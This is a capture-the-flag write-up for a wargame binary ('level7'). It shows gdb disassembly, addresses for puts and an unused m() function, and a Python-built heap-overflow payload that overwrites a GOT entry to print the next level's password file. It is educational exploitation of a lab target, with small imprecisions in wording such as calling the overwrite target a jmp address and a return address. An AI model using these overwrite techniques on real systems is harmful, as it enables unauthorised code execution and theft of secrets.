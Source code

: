 When running the program without arguments, we encountered a segmentation fault:
```
./level7
Segmentation fault (core dumped)
```
Upon trying with two arguments, we received a different response:
```
./level7 "eee" "ddd"
~~
```
We disassembled the program and found a global variable `c` and an unused function `m()`. The `m()` function prints the content of the variable `c`.

The `main()` function allocates two string pointers and uses `strcpy` to copy the content from `argv[1]` to `str1` and `argv[2]` to `str2`. Additionally, the program calls fopen to read a file from the path `/home/user/level8/.pass` and stores it in the global variable `c` using `fgets`. The program then calls `puts` to print the string `~~`.

We aim to exploit the program by redirecting the execution flow from the `puts` function to the `m()` function, which will print the contents of the global variable `c`.

First, we disassembled the main() function to find the call to `puts`:

```
(gdb) disass main
...
0x080485f0 <+207>:	movl   $0x8048703,(%esp)
0x080485f7 <+214>:	call   0x8048400 <puts@plt>
0x080485fc <+219>:	mov    $0x0,%eax
...
```

The address of the `jmp` instruction is `0x8049928`( `\x28\x99\x04\x08`).

We located the m() function's address using gdb:

```
(gdb) info functions
...
0x080484f4  m
0x08048521  main
...
```

The address of the `m()` function is `0x080484f4`(`\xf4\x84\x04\x08`).

To exploit the program, we need to overwrite the return address of the `puts` function with the address of the `m()` function.

We create the payload as follows:
```
./level7 $(python -c "print 'A' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
```
